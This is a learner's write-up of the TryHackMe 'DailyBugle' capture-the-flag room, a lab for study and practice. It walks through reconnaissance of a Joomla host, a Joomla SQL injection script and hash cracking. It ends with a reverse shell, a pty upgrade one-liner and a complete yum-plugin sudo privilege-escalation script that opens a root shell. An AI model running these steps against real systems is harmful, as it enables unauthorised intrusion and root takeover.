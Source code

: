 ```yaml
---
title: DailyBugle-writeup-THM
date: 2024-01-01 10:00:00
categories: [room, hard]
tags: [joomla]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/dailybugle">DailyBugle</a>"

The first thing that we are going to do is a nmap scan:

```bash
sudo nmap -A 10.10.62.253                     

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-30 10:48 EST
Nmap scan report for 10.10.62.253
Host is up (0.063s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

This is our output, we see that there are 3 ports open, 

- ssh(useless for now)
- http
- 3306, which is used by MariaDB

The first thing that I am going to do is exploring the web page

![Untitled](https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled.png)

After trying some thing, I cam accross the robots.txt directory:

```bash
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

This is the output.

For now I am going to ignore it.

Now I just started sqlmap with the request that I captured from the login form:

```bash
└─$ sqlmap -r Desktop/response.txt --dbms=mariadb --dump --threads=5
```

And then I ran ffuf for directory enumeration:

```bash
ffuf -u http://10.10.62.253/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.62.253/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5237ms]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5361ms]
administrator           [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 80ms]
bin                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 79ms]
cache                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 80ms]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9, Duration: 80ms]
cli                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 82ms]
components              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 94ms]
images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 76ms]
includes                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 79ms]
language                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 80ms]
layouts                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
libraries               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 77ms]
media                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 79ms]
modules                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
plugins                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 79ms]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33, Duration: 80ms]
templates               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 71ms]
tmp                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 80ms]
:: Progress: [20469/20469] :: Job [1/1] :: 265 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Ok, now that I have more informations, I can visit the administrator page:

![Untitled](https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled%201.png)

Nice, we have the jomla login panel.

Now we can run OWASP joomscan, and find the version.

After that I searched for an exploit, and found this python script:

```bash
python3 joomblah.py http://10.10.62.253

                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: <redacted>
  -  Extracting users from <redacted>
 [$] Found user ['<redacted>']
  -  Extracting sessions from <redacted>
```

After finding the hash of Jonah, I just went to hashidentifier and cracked it.

Now for creating a reverse shell I found this Article online: https://www.hackingarticles.in/joomla-reverse-shell/

I followed and I got a rev shell.

I upgraded the shell using:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

And found the jjameson’s password inside linpeas.

Now we need to become root.

I used sudo -l  to list all the privileges:

```bash
sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

And then went to gtfobins and used this for a root shell:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```